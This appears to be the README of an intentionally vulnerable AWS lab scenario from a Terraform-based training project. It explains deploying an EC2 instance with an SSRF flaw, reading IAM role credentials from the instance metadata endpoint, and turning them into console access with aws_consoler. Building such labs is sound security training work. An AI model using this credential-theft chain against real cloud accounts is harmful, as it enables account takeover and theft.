


# AWS Console Takeover Vulnerable Environment

English | [中文](./README_CN.md)

## Description

This is a scenario used to build the AWS Console Takeover vulnerability environment.

After building the environment with Terraform, The SSRF vulnerability can be used to obtain STS data on EC2 and then use the STS data to take over the AWS console.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/aws/ec2/console_takeover/
```

Configure AWS Access Credentials

```shell
aws configure
```

> You can see the access key in the AWS [Console --> Security Credentials]

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

After the environment is set up, You can see the access address of the scenario at Outputs, then access to the browser.

## Vulnerability Utilization

On EC2 with SSRF vulnerabilities, we can use SSRF to read STS information.

Read STS information

```shell
http://169.254.169.254/latest/meta-data/iam/security-credentials/huoxian_terraform_goat_role
```



Generate AWS console access links with the aws_consoler tool

```shell
apt install python3-pip
pip install aws-consoler
aws_consoler -R us-east-1 -a {Your_AccessKeyId} -s {Your_SecretAccessKey} -t {Your_Token}
```

Copy the generated link into your browser and open it to take over the AWS Service Console.



## Destroy the environment

```shell
terraform destroy
```
